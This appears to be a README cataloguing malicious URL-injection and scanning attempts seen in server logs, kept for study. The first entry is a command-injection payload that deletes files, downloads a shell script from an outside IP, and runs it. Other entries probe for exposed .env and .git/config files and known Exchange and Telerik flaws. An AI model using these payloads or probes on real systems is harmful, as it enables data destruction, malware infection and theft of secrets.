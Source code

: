 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
- User the ```file-on-server.html``` to determine if you have these files on your server.
## ATTEMPTS:
```
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)
2. ../autodiscover/autodiscover.json?@zdi/Powershell
3. ../owa/auth/x.js
4. ../backup/.git/config
5. ../log/.git/config
6. ../doc/.git/config
7. ../autodiscover/autodiscover.json?@1337.com/owa/?&Email=autodiscover/autodiscover.json%3F@1337.com
8. ../Telerik.Web.UI.WebResource.axd?type=rau
9. ../WebInterface/
10. ../sugar_version.json
11. ../icons/sphere1.png
12. ../static/historypage.js
13. ../cgi-bin/authLogin.cgi
14. ../remote/login
15. ../sitecore/shell/sitecore.version.xml
16. ../js/NewWindow_2_all.js
17. ../cf_scripts/scripts/ajax/ckeditor/ckeditor.js
18. ../showLogin.cc
19. ../webfig/
20. ../cgi-bin/config.exp
21. ../solr/
22. ../api/session/properties
23. ../.env
24. ../owa/auth/logon.aspx
```
## Shadow Server Attempts (shadowserver.org)
```
1. ../vpn/index.html
2. ../geoserver/web/
3. ../.git/config
4. ../favicon.ico
```
